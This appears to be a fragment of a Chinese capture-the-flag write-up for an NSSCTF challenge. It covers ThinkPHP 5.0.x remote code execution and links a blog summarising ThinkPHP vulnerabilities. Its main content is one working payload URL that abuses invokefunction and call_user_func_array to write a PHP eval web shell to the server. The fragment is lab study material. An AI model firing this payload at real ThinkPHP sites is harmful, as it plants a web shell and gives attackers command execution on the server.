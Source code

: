 ![image-20250814172655397](./NSSCTF-5.assets/image-20250814172655397.png)

#### ThinkPHP RCE

推荐博客：[Think PHP漏洞总结（全系列）](https://www.cnblogs.com/lingzhisec/p/15728886.html)
去找 5.0.x 版本的 payload 。**（这里日后再详细研究一番）**

这里直接使用 payload ：

```
/NSS/index.php?s=/index/\think\app/invokefunction&function=call_user_func_array&vars[0]=file_put_contents&vars[1][]=eval.php&vars[1][]=<?php eval($_POST['cmd']);?>
```

返回

![image-20250814173911224](./NSSCTF-5.assets/image-20250814173911224.png)
